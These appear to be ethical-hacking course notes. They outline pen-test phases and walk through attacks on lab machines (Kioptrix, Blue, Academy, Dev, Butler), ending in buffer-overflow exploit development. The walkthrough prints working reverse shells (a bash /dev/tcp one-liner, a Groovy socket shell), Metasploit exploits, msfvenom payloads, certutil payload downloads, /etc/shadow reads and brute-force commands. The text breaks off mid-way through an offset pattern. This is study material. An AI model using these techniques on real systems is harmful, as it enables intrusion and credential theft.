



# Ethical Hacking Methodology
There are 5 stages when conducting pen-testing/ ethical hacking:

## 1. Reconnaissance:
Gathering information about the target through passive means like OSINT, DNS records, browsing websites, etc.. The goal is to *gather as much info as impossible* on the target so that you can plan and effective test.

## 2. Scanning:
Scanning is like reconnaissance but more active because you are *potentially leaving traces of your presence.* This stage includes probing a system/ network to discover features about it which can be used to gain access.

Effective scanning will tell you about:
- open ports
- services running on the system/ network
- vulnerabilities in those services

Scanning includes techniques like port scanning, vulnerability scanning, network mapping, etc..

## 3. Gaining Access:
Using the information gathered during recon and scanning, vulnerabilities in the target system are used to gain access. Some techniques used during this stage are password brute forcing, social engineering, exploiting vulnerabilities in software, etc..

## 4. Maintaining Access:
Once the target has been penetrated, you have to maintain access by concealing your tracks, establishing "back doors" so you can re-access if necessary, and gaining persistence.

In ethical hacking this stage is focused on mimicking what a true hacker would do to find out how much damage can potentially be done and what is at risk for the target.

## 5. Covering Tracks:
Once the exploitation and exfiltration of the system is complete, you need to cover your tracks and remove and evidence of your presence. Some techniques covering your tracks include deleting logs, removing or changing files, and attempting to restore the system to its original state.

The goal is to try to make sure your activities go and stay undetected,


* Reconnaisance (Activate vs Passive)
* Scanning and Enumaration (nmap, nessus)
* Gaining Access (Exploitation)
* Maitaning Access
* Covering tracs (cleaning up)

# Information Gathering

## Passive Recon

Types: Physical/Social

* Location information: 
    * satellite images, drone recon
    * building layout

* Job Information
   * Employees (names, jobtitle, phone number, etc)
   * Pictures (badges photoes, desk photos, computer, etc)

## Web/Host



[Bugcrowd](https://bugcrowd.com) for programs and targets

## Discoverig Email Addresses


[Hunter](https://hunter.io/) for email discovery and verify or [Phonebook](https://phonebook.cz/) for chrome as an extesnion `clearbit` another one [verifyemail](http://www.verifyemailaddress.io/)

## Hunting breached credentials

[Dehashed](https://www.dehashed.com/) 


## Hunting subdomains

`apt istall sublister` 

* Get subdomains  with wublist3r





Search by certificate with `crt.sh` 


* The go to tool is [OWASP-AMASS](https://github.com/OWASP/Amass)


## Identify built with 

Check [builtwith](https://builtwith.com/) and `wappalyzer` for firefox
`whatweb` on kali




## Installing Tor Browser on Kali Linux

```
kali@kali:~$ sudo apt update
kali@kali:~$
kali@kali:~$ sudo apt install -y tor torbrowser-launcher
kali@kali:~$
```
```
kali@kali:~$ torbrowser-launcher
```

# Scanning And Enumeration

* For this section, we are using Kioptrix, a vulnerable machine from [Vulnhub](https://www.vulnhub.com/) for beginners.

* To log in to Kioptrix machine:

```shell
#on Kali Linux

ifconfig
#to get IP address 10.0.2.7

netdiscover -r 10.0.2.0/24
#using ARP to detect all machines on network
#gives us the IP address of Kioptrix, 10.0.2.4

nmap -T4 -p- -A 10.0.2.4
#-T4 is for speed, -p- for scanning all ports, -A for scanning everything
#analyze scan results and lookup exploits
```

* Enumerating HTTP and HTTPS:

  * We can visit the links <http://10.0.2.4> and <https://10.0.2.4> for port 80 and 443. It shows that the default webpage uses Apache and PHP.

  * Information disclosure - Apache documentation link given in <http://10.0.2.4> leads to 404 page with Apache version 1.3.20.

  * Using a web vulnerability scanner:

  ```shell
  apt install nikto #web vuln scanner tool

  nikto -h http://10.0.2.4 #scans website, shows vuln

  dirbuster #tool for directory scanning
  ```

  * Burp Suite can be used to see and modify response in real-time using the Repeater window.

  * Information disclosure - Server headers reveal version information.

* Enumerating SMB:

  * SMB (Samba) is used for fileshare services, here it used on port 139.

  * For enumeration:

  ```shell
  msfconsole #loads the Metasploit framework

  search smb #search for exploits related to smb
  #choose one of the exploits

  use auxiliary/scanner/smb/smb_version #use particular module

  info #get information

  options #get only options

  set RHOSTS 10.0.2.4 #from options, set RHOSTS (Remote Host) as 10.0.2.4

  run #run exploit
  #This gives us the version of SMB - Unix (Samba 2.2.1a)

  #In a new terminal tab, we can use another tool called smbclient to connect to fileshare service
  smbclient -L \\10.0.2.4\\ #-L to list all, the slashes are for escaping characters

  #this gives us more information about the sharename and servers
  #we can attempt to connect
  smbclient \\\\10.0.2.4\\ADMIN$
  #cannot connect as we do not have password

  smbclient \\\\10.0.2.4\\IPC$ #this works and we get access to smb

  help

  ls #not allowed

  exit
  ```

* Enumerating SSH:

  * From the nmap scan, we know that the SSH version on port 22 is OpenSSH 2.9p2. We can attempt to connect using ```ssh 10.0.2.4``` but it would not work unless we know the password.

* After enumeration, we can research the vulnerabilities using Google and find if there are any exploits related to it. Examples of resources include [Rapid7](https://www.rapid7.com/db/) and [Exploit Database](https://www.exploit-db.com/). For offline searches, use ```searchsploit``` in the terminal.

* Vulnerability scanning with Nessus:

  * To setup Nessus:

  ```shell
  #After downloading Nessus package
  cd Downloads/

  dpkg -i Nessus-10.1.1-ubuntu910_amd64.deb

  /bin/systemctl start nessusd.service #start Nessus scanner
  #now go to <https://kali:8834/> to configure the scanner
  ```

  * Once Nessus is configured, we can launch a basic network scan or an advanced network scan of the Kioptrix machine.

  * After the scan is completed, we can check all the vulnerabilities and based on that we can find exploits.

# Exploitation Basics

* Shell - gives access to a machine

* Reverse shell - target machine connects to us; we listen to it; commonly used.

* Bind shell - we open up a port on target machine and then connect to it.

* Payloads - code run as an exploit; sent to victim to get shell access.

* Non-staged payload - sends exploit shellcode all at once; larger; does not always work. For example, windows/meterpreter_reverse_tcp.

* Staged payload - sends payload in stages; less stable. For example, windows/meterpreter/reverse_tcp.

* Gaining root with Metasploit:

```shell
msfconsole

search trans2open #name of exploit for Samba

use 1 #use exploit/linux/samba/trans2open

options

set RHOSTS 10.0.2.4

show targets #only one (selected) option, Samba 2.2.x

exploit
#does not work due to default payload (staged), so we stop the process and change our payload to non-staged

set payload linux/x86/shell_reverse_tcp
#similar to previous one, but non-staged

options

exploit
#this gives us shell access of root

whoami
#root

hostname
#kioptrix.level1
```

* Gaining root with manual exploitation:

```shell
mkdir kioptrix

cd kioptrix/

git clone https://github.com/heltonWernik/OpenLuck.git #exploit for mod_ssl

cd OpenLuck/

ls

apt install libssl-dev #install ssl-dev library

gcc -o openluck OpenFuck.c -lcrypto #compile the program

ls #shows openluck executable

./openluck #shows usage
#from enumeration, we know that target is using RedHat Linux and Apache 1.3.20, so we accordingly use the script

./openluck 0x6b 10.0.2.4 -c 40
#executes the script
#now we have access

whoami
#root

cat /etc/passwd
#shows users

cat /etc/shadow
#shows hashed passwords
#both /etc/passwd and /etc/shadow can be combined to decipher the passwords
```

* Brute force attack:

```shell
#using Hydra

hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://10.0.2.4 -t 4 -V
#we want to attack root using unix_passwords.txt wordlist in 4 threads; -V is for verbosity
```

```shell
#using Metasploit

msfconsole

search ssh

use auxiliary/scanner/ssh/ssh_login

options

set username root

set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

set rhosts 10.0.2.4

set threads 5

set verbose true

exploit
```

* Credential stuffing - Injecting breached account credentials in hopes of account takeover; we can do this using Intruder window in Burp Suite.

* Password spraying - Brute force logins based on list of usernames and common passwords; similar to credential stuffing.

# Capstone

> [!tip] 
> I highly recommend doing the older capstones first! If you have HackTheBox subscription, there are excellent retired machines available. I advise you doing a few of those in **guided mode**. After that try to root the current machines on your own.

This consists of some intentionally vulnerable machines which would be exploited using our Kali Linux machine:

  1. [Blue](#blue)
  2. [Academy](#academy)
  3. [Dev](#dev)
  4. [Butler](#butler)

## Blue

---

* Given, the IP address of the vulnerable Windows Vista machine is 10.0.2.8. We can also confirm this once by using ```netdiscover```:

```shell
netdiscover -r 10.0.2.0/24
#shows 10.0.2.8 (Blue)

nmap -T4 -p 1-1000 -A 10.0.2.8
#using nmap to scan machine
#scanning only first 1000 ports as it would take much too time to scan all ports
```

* From the nmap scan, we get the following results:

```shell
135/tcp - open - msrpc - Microsoft Windows RPC
139/tcp - open - netbios-ssn - Microsoft Windows netbios-ssn
445/tcp - open - microsoft-ds - Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (WORKGROUP)
MAC Address - 08:00:27:2A:95:91
Running - Microsoft Windows 7|2008|8.1

Host script results:

smb2-security-mode - 2.1 - Message signing enabled but not required
nbstat - NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: unknown, NetBIOS MAC: 08:00:27:2a:95:91 (Oracle VirtualBox virtual NIC)
smb-security-mode - account_used: guest, authentication_level: user, challenge_response: supported, message_signing: disabled
OS - Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
OS CPE - cpe:/o:microsoft:windows_7::sp1
Computer name - WIN-845Q99OO4PP
NetBIOS computer name - WIN-845Q99OO4PP\x00
```

* Based on the results, we can attempt to enumerate based on the version of operating system, or if that does not work, we can go for the open ports and services given to us.

* Searching for exploits for the version of Microsoft Windows given to us, we get an exploit called 'Eternal Blue', which is a SMB remote code execution vulnerability.

* This exploit module is given as exploit/windows/smb/ms17_010_eternalblue, so we can run it using Metasploit framework:

```shell
msfconsole

use exploit/windows/smb/ms17_010_eternalblue
#by default, payload is windows/x64/meterpreter/reverse_tcp

options

set RHOSTS 10.0.2.8

show targets

exploit
```

* Hence, the 'Eternal Blue' exploit worked and we got access to Blue.

## Academy

---

* After switching on the machine, we can start scanning from Kali Linux to discover the machine and do further operations:

```shell
netdiscover -r 10.0.2.0/24
#shows machine with address 10.0.2.15, IP of Academy

ping 10.0.2.15
#ping works as well, checking if machine is up

nmap -T4 -p- -A 10.0.2.15
#nmap to scan all ports
```

* From the nmap scan, we get the following results:

```shell
21/tcp - open - ftp - vsftpd 3.0.3
ftp-anon: Anonymous FTP login allowed (FTP code 230)
_-rw-r--r-- - 1 - 1000 - 1000 - 776 - May 30 2021 - note.txt
FTP server status - Connected to ::ffff:10.0.2.7 - Logged in as ftp - TYPE: ASCII
22/tcp - open - ssh - OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
ssh-hostkey: 
  2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
  256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp - open - http - Apache httpd 2.4.38 (Debian)
http-title: Apache2 Debian Default Page: It works
http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:E7:E8:11 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* We can begin enumeration, starting with HTTP, and parallely enumerate other ports and services such as FTP:

  * We visit the link <http://10.0.2.15> for port 80/tcp. It gives us a generic Apache 2 Default Debian Page.

  * Information disclosure - Apache manual link given in <http://10.0.2.15> leads to 404 page with Apache version 2.4.38.

  * We can proceed to use a web application scanner here:

  ```shell
  nikto -h 10.0.2.15 #lists all vuln in website
  #Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
  #Uncommon header 'x-ob_mode' found, with contents: 1
  #Cookie goto and back created without the httponly flag
  #found /phypmyadmin/ChangeLog, /icons/README, /phpmyadmin/, /phpmyadmin/README

  dirbuster #tool for directory scanning, this lists more directories in website
  #the two major directories we get are /academy and /phpmyadmin
  ```

  * If we visit <http://10.0.2.15/academy>, we get a login portal. Attempting SQL injection by entering ```' or 1=1#```, we manage to log in as 'Rum Ham'.

  * Exploring the website further, we get more details about the user.

  * Information disclosure - In <http://10.0.2.15/academy/my-profile.php>, we get info; Student Name - Rum Ham; Student Reg No - 10201321; Pincode - 777777; CGPA - 7.60.

  * The Profile page also contains an option to upload a profile pic, so we can attempt to upload a PHP reverse shell here to see if it works.

  * Using any PHP reverse shell, such as the one given in <https://github.com/pentestmonkey/php-reverse-shell> we can proceed:

  ```shell
  vim academyshell.php #create file and open it
  #paste shell contents and edit the IP address of machine
  #save file and exit  

  nc -nvlp 1234 #netcat to listen at port 1234 (given in shell)

  #now we can upload the reverse shell in the website
  #this gives us access to the machine

  whoami
  #www-data
  ```

  * As we are not root here, we will have to use privilege escalation.

  * We can use a script called linPEAS on <https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS>, which checks vulnerabilities related to privilege escalation:

  ```shell
  #in a new terminal tab
  mkdir transfers #directory for separating files

  cd transfers/

  vim linpeas.sh #copy script content, save file

  #now we can start our web server here, so that we can get back to www-data on Academy and download this script
  python3 -m http.server 80 #hosts web server
  ```

  * Getting back to the Academy machine access through www-data:

  ```shell
  cd /tmp #get to tmp directory to download script

  wget http://10.0.2.7/linpeas.sh #downloads the script

  chmod +x linpeas.sh #give executable permissions

  ./linpeas.sh #executes the script, we can look through the output
  #/home/grimmie/backup.sh is highlighted in red/yellow, so it could be important
  #gives mysql_password = "My_V3ryS3cur3_P4ss"

  cat /etc/passwd
  #shows that the user "grimmie" is administrator
  #on trying user "grimmie" and password "My_V3ryS3cur3_P4ss" on phpmyadmin, it works and we get access

  cat /home/grimmie/backup.sh
  #shows a script which contains info about backup files; the script is executed at a certain period
  
  #we can also attempt to login into ssh, as it was mentioned that the same password was being used everywhere
  #so in a new tab

  ssh grimmie@10.0.2.15
  #we get access
  ```

* Enumerating FTP on port 21:

  * We use ftp to connect to Academy machine:

  ```shell
  ftp 10.0.2.15
  #use username Anonymous and password anon

  ls
  #shows note.txt

  get note.txt

  exit
  #exit ftp, back in our system now

  cat note.txt
  #gives details related to the website portal on <http://10.10.2.15/academy>, including login details
  ```

* Now, as we have access to the machine as 'grimmie', we can use one-liner reverse shells and save it in the script ```backup.sh```, so that when it is executed again we get root access:

  * We can use any one-liner reverse shells from Google:

  ```shell
  #in our Kali Linux terminal
  nc -nvlp 8081 #listening on port 8081 for reverse shell to work

  #in the Academy machine through 'grimmie'
  nano backup.sh
  #edit the script and remove all lines and paste the one-liner; make sure to edit IP address and port
  #bash -i >& /dev/tcp/10.0.2.7/8081 0>&1
  ```

  * This method works and we get access as root on Academy. We can view the flag.txt as well.

---

## Dev

---

* Scanning using netdiscover and nmap:

```shell
netdiscover -r 10.0.2.0/24
#gives IP of Dev as 10.0.2.9

nmap -T4 -p- -A 10.0.2.9
```

* nmap gives the following info:

```shell
22/tcp - open - ssh - OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
ssh-hostkey: 
  2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
  256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)

80/tcp - open - http - Apache httpd 2.4.38 (Debian)
  http-server-header: Apache/2.4.38 (Debian)
  http-title: Bolt - Installation error

111/tcp - open - rpcbind - 2-4 (RPC #100000)

2049/tcp - open - nfs_acl - 3 (RPC #100227)

8080/tcp - open - http - Apache httpd 2.4.38 (Debian)
  http-open-proxy: Potentially OPEN proxy.
  Methods supported:CONNECTION
  http-server-header: Apache/2.4.38 (Debian)
  http-title: PHP 7.3.27-1~deb10u1 - phpinfo()

39265/tcp - open - nlockmgr - 1-4 (RPC #100021)
53457/tcp - open - mountd   - 1-3 (RPC #100005)
55407/tcp - open - mountd   - 1-3 (RPC #100005)
55989/tcp - open - mountd   - 1-3 (RPC #100005)

MAC Address: 08:00:27:B6:FC:7A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
```

* Enumerating HTTP at ports 80 and 8080:

  * Visiting the links <http://10.0.2.9:80> and <http://10.0.2.9:8080> gives us pages for Bolt installtion error and PHP default version webpage, respectively.

  * Information disclosure:

    * Apache 2.4.38 and PHP version 7.3.27-1~deb10u1 used in website

    * Bolt installation error page on <http://10.0.2.9:80> shows that current folder is /var/www/html/. Similarly, Apache run directory given as /var/run/apache2

    * PHP page shows system details - Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

    * HTTP Header request info - GET / HTTP/1.1

  * Scanning web app:

  ```shell
  ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u http://10.0.2.9:80/FUZZ
  #using ffuf for directory scanning

  ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u http://10.0.2.9:8080/FUZZ
  ```

  * Information disclosure:

    * Using ffuf, we get directories /public, /src, /app, /vendor, /extensions for <http://10.0.2.9:80>

    * Similarly, for <http://10.0.2.9:8080>, we get /dev and /server-status

  * We access the directories of <http://10.0.2.9:80>, and most of it were ordinary files, except for a few. A file named config.yml gives us credentials - username: bolt, password: I_love_java

  * Accessing <http://10.0.2.9:8080/dev> leads us to a website called Boltwire. We create an account on it and the URL changes to a format, such that it can have some vulnerabilities.

  * On Googling, it's found that Boltwire does have file related vulnerabilities. Using the file upload vulnerability given in <https://www.exploit-db.com/exploits/48411>, the URL can be modified to reveal the /etc/passwd file, which gives us a list of the users. One of the users is 'jeanpaul', who could be 'jp' from the todo.txt

* Enumerating nfs_acl at 2049:

  * We can use nfs_acl to mount files in our system from Dev:

  ```shell
  showmount -e 10.0.2.9 #shows export list - /srv/nfs

  mkdir /mnt/dev/ #folder to store files

  mount -t nfs 10.0.2.9:/srv/nfs /mnt/dev/

  cd /mnt/dev/

  ls #shows save.zip

  unzip save.zip #asks for password, we do not have it

  apt install fcrackzip #install tool to crack zip password

  fcrackzip -v -u -D -p /root/rockyou/rockyou.txt save.zip
  #-v for verbosity, -u for unzip, -D for dictionary attack and -p for passwords file
  #password is java101

  unzip save.zip #enter password to unzip

  ls #shows two files
  ```

  * The two files give us some info - todo.txt shows file with text, signed by 'jp'; and the second file is id_rsa, a key. It could be probably useful for ssh, but we do not know the username.

  * However, we can use earlier usernames 'jp' and 'jeanpaul', the id_rsa file and 'I_love_java' to attempt the SSH login.

* Enumerating ssh at 22:

  * Attempting ssh login:

  ```shell
  ssh -i id_rsa jp@10.0.2.9
  #does not work

  ssh -i id_rsa jeanpaul@10.0.2.9
  #works with 'I_love_java'
  #logs in as jeanpaul

  ls

  history #check prev commands for clues

  sudo -l #shows what we can run without sudo password
  #it shows we can run 'sudo zip'
  #Google shows a lot of privilege escalation methods using sudo zip
  #we can use <https://gtfobins.github.io/> as a resource for binaries, including those related to privilege escalation
  #we can abuse sudo zip for escalating privileges

  TF=$(mktemp -u)

  sudo zip $TF /etc/hosts -T -TT 'sh #'
  #opens a shell as sudo

  id
  #shows that we are root now

  cd /root

  ls

  cat flag.txt
  ```

* Therefore, we have gained root access on Dev and captured the flag.txt as well.

---

## Butler

---

* Recon:

```shell
netdiscover -r 10.0.2.0/24
#gives IP of Butler 10.0.2.80

nmap -T4 -p 1-10000 -A 10.0.2.80 #prevent slow scanning by defining range of ports
```

* Scan results:

```shell
135/tcp - open - msrpc - Microsoft Windows RPC
139/tcp - open - netbios-ssn - Microsoft Windows netbios-ssn
445/tcp -  open - microsoft-ds?
5040/tcp - open - unknown
7680/tcp - open - pando-pub?
8080/tcp - open - http - Jetty 9.4.41.v20210516
  http-server-header: Jetty(9.4.41.v20210516)
  http-robots.txt: 1 disallowed entry 
  http-title: Site does not have a title
MAC Address: 08:00:27:A3:E0:75 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 1909

Host script results:
  nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:a3:e0:75 (Oracle VirtualBox virtual NIC)
  smb2-time: 
    date: 2022-03-04T09:29:43
    start_date: N/A
  smb2-security-mode: 
    3.1.1: 
    Message signing enabled but not required
```

* Enumerating HTTP on 8080:

  * On visiting the link <http://10.0.2.80:8080>, we get a login page for Jenkins. The URL is now <http://10.0.2.80:8080/login?from=%2F> and it looks vulnerable.

  * SQL injection does not work in the login page. We can attempt modifying the URL.

  * Simultaneously, scanning website:

    ```shell
    nikto -h http://10.0.2.80:8080
    
    ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u http://10.0.2.80:8080/FUZZ
    ```

  * These methods do not give any desirable outputs. We can attempt brute force login using Burp Suite.

  * We can use Cluster Bomb attack in Burp Suite as we do not know username and password. Using common usernames and passwords, we begin the brute-force.

  * Brute-force is successful as we get jenkins:jenkins as credentials for login.

  * Information disclosure - Jetty(9.4.41.v20210516) and Jenkins 2.289.3 used.

  * On searching for Jenkins exploits, we get a lot of results with Groovy being used. Furthermore, there is a part in the Jenkins website which uses Groovy in a script console, so we can search for vulnerabilities related to RCE (Remote Code Execution).

  * Using Metasploit to attempt exploitation:

    ```shell
    msfconsole

    use exploit/multi/http/jenkins_script_console

    options

    set RHOSTS 10.0.2.80

    set RPORT 8484

    set TARGETURI /

    show targets

    set target 0

    options

    exploit

    #this did not work, so we will try another method
    ```

  * Exploiting through Jenkins script console:

    ```shell
    #in terminal
    nc -nvlp 6666

    #in the script console in Jenkins
    String host="10.0.2.7";
    int port=6666;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```

  * This works and we are able to gain access into the Butler machine:

    ```shell
    #currently in C:\Program Files\Jenkins
    
    whoami #butler\butler
    #we have to use privilege escalation now, to get root access

    systeminfo #gives complete info
    #OS Name - Microsoft Windows 10 Enterprise Evaluation
    #OS Build - 10.0.19043 N/A Build 19043
    ```

  * Similar to linPEAS for Linux Privilege Escalation, we have winPEAS for Windows Privilege Escalation, so we can attempt that. So, download winPEASx64.exe and open terminal in new tab:

    ```shell
    cd transfers/ #the folder from where we will be transferring folders to Butler

    mv /root/Downloads/winPEASx64.exe /root/transfers/winpeas.exe

    ls #we have winpeas.exe in this folder now

    python3 -m http.server 80 #starting web server on port 80

    #in Windows machine, that is, the terminal where we can access Butler
    cd C:\Users

    dir

    cd butler #this folder will mostly have read/write access

    certutil.exe -urlcache -f http://10.0.2.7/winpeas.exe winpeas.exe #using a service to transfer file from Kali Linux to Butler

    dir #we have winpeas.exe now

    winpeas.exe #executes and gives us a huge list of vulnerabilities
    #we decide to choose the vulnerabilities which have detected 'No quotes and spaces' (in files such as 'Wise Care'), as those allow us to execute .exe files

    #in the Kali machine, pause the webserver and insert malware to be transferred
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.7 LPORT=7777 -f exe > Wise.exe
    #this generates a shell named Wise.exe

    python3 -m http.server 80 #restart web server

    #in a new tab, start listening on port 7777
    nc -nvlp 7777
    ```

    ```shell
    #in Butler
    cd C:\

    cd "Program Files (x86)"

    dir

    cd Wise #required directory

    dir #includes 'Wise Care 365'

    certutil.exe -urlcache -f http://10.0.2.7/Wise.exe Wise.exe
    #as the 'Wise Care 365' service is started by admin, we have to first stop it and then run Wise.exe

    sc stop WiseBootAssistant

    sc query WiseBootAssistant #stops the service

    sc start WiseBootAssistant #this gives us shell access

    whoami #we have root access
    ```

# Exploit Development

* Buffer Overflow - vulnerability in which data can be written which exceeds allocated space, so that we can overwrite data.

* Steps to conduct a buffer overflow:

  * [Spiking](#spiking)

  * [Fuzzing](#fuzzing)

  * [Finding the Offset](#finding-the-offset)

  * [Overwriting the EIP](#overwriting-the-eip)

  * [Finding Bad Characters](#finding-bad-characters)

  * [Finding the Right Module](#finding-the-right-module)

  * [Generating Shellcode](#generating-shellcode)

  * Root Access

## Spiking

* Initial setup is to attach the vulnserver application in Immunity Debugger, in running mode.

* We know the IP of our Windows machine and the vulnserver port, so we can connect in Kali machine using ```nc```.

```shell
nc -nv 192.168.30.139 9999
```

* For spiking, we can use a tool called ```generic_send_tcp```. We will try different random characters to break the program.

* We would do this with the help of a spike script.

```shell
#stats.spk
s_readline();
s_string("STATS ");
s_string_variable("0");
```

```shell
#trun.spk
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

```shell
generic_send_tcp
#shows syntax format

generic_send_tcp 192.168.30.139 9999 stats.spk 0 0

generic_send_tcp 192.168.30.139 9999 trun.spk 0 0
#this crashes the vulnserver due to buffer overflow
```

## Fuzzing

* Similar to spiking, we would send a bunch of characters at a specific command and try to break it. The difference is that we would attack a particular command in fuzzing.

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
        try:
                payload = "TRUN /.:/" + buffer
                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect(('192.168.30.139',9999))
                print("[+] Sending the payload\n" + str(len(buffer)))
                s.send((payload.encode()))
                s.close()
                sleep(1)
                buffer = buffer + "A"*100

        except:
                print("Fuzzing crashed at %s bytes" % (str(len(buffer))))
                sys.exit()
               
```

```shell
vim fuzzingscript.py

chmod +x fuzzingscript.py

./fuzzingscript.py
#around 2000-3000 bytes, Immunity Debugger crashes
#fuzzing gives us an idea about the limit
```

## Finding the Offset

```python
#!/usr/bin/python
import sys, socket

offset = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5C